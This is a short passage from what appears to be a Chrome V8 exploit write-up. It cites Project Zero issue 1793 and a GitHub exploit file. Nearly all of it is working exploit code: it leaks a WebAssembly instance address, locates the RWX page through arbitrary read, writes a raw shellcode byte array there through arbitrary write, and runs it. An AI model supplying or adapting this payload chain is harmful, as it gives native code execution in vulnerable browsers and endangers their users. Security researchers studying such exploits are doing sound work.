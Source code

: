 ```
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, `{``}`);
var f = wasmInstance.exports.main;
var wasm_instance_addr = addressOf(wasmInstance) - 1n;
console.log("[+]leak wasm instance addr: " + hex(wasm_instance_addr));
var rwx_page_addr = arb_read(wasm_instance_addr + 0x108n);
console.log("[+]leak rwx_page_addr: " + hex(rwx_page_addr));

const sc = [72, 49, 201, 72, 129, 233, 247, 255, 255, 255, 72, 141, 5, 239, 255, 255, 255, 72, 187, 124, 199, 145, 218, 201, 186, 175, 93, 72, 49, 88, 39, 72, 45, 248, 255, 255, 255, 226, 244, 22, 252, 201, 67, 129, 1, 128, 63, 21, 169, 190, 169, 161, 186, 252, 21, 245, 32, 249, 247, 170, 186, 175, 21, 245, 33, 195, 50, 211, 186, 175, 93, 25, 191, 225, 181, 187, 206, 143, 25, 53, 148, 193, 150, 136, 227, 146, 103, 76, 233, 161, 225, 177, 217, 206, 49, 31, 199, 199, 141, 129, 51, 73, 82, 121, 199, 145, 218, 201, 186, 175, 93];
for(let i = 0; i &lt; sc.length / 8; i++ )`{`
    arb_write(rwx_page_addr + BigInt(i) * 8n ,sc.slice(i * 8,(i + 1) * 8));
`}`

f();
```



## Reference

[https://bugs.chromium.org/p/project-zero/issues/detail?id=1793](https://bugs.chromium.org/p/project-zero/issues/detail?id=1793)

[https://github.com/Geluchat/chrome_v8_exploit/blob/master/1793.js](https://github.com/Geluchat/chrome_v8_exploit/blob/master/1793.js)
